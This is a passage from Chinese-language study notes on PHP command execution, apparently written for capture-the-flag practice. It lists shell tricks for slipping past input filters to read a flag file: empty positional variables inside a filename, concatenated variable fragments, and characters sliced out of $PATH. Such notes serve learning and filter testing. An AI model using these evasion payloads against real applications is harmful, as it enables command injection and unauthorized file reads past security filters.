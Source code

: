 4. 特殊变量:\$1到$9

   ```shell
   输出为空
   cat fl$1ag.p$9hp
   cat fl$*\ag.php
   ```

   ![image-20240315150822745](PHP命令执行.assets/image-20240315150822745.png)

5. 内联执行

   自定义字符串,再拼接起来

   ```shell
   a=f;d=ag;c=l;cat $a$c$d.txt
   ```

   ![image-20240315151030381](PHP命令执行.assets/image-20240315151030381.png)

6. 利用linux中的环境变量

   使用环境变量力的字符执行变量

   ```shell
   echo $PATH
   /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
   echo f${PATH:5:1} # 使用环境变量里的第五个字符
   fl
   echo f${PATH:5:1}${PATH:8:1}${PATH:72:1}
   flag
   ```

## 常见文件读取命令绕过
